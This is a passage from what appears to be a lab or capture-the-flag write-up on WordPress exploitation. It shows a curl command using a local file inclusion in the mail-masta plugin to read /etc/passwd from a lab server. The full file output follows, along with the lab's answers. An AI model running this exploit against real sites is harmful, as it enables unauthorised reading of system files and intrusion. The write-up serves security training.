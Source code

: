 **Answer:** `1.5.34`

---
## Exploiting a Vulnerable Plugin
### Question:
![](./attachments/Pasted%20image%2020220805131108.png)

*Hint: The user has "/bin/bash" at the end of their entry in the "/etc/passwd" file.*

```
┌──(kali㉿kali)-[~/Downloads]
└─$ curl http://178.62.115.160:32513/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
mysql:x:100:101:mysql:/var/lib/mysql:/sbin/nologin
nginx:x:101:102:nginx:/var/lib/nginx:/sbin/nologin
wp-user:x:1000:1000:Linux User,,,:/home/wp-user:/sbin/nologin
sally.jones:x:1001:1001:Linux User,,,:/home/sally.jones:/bin/bash
```
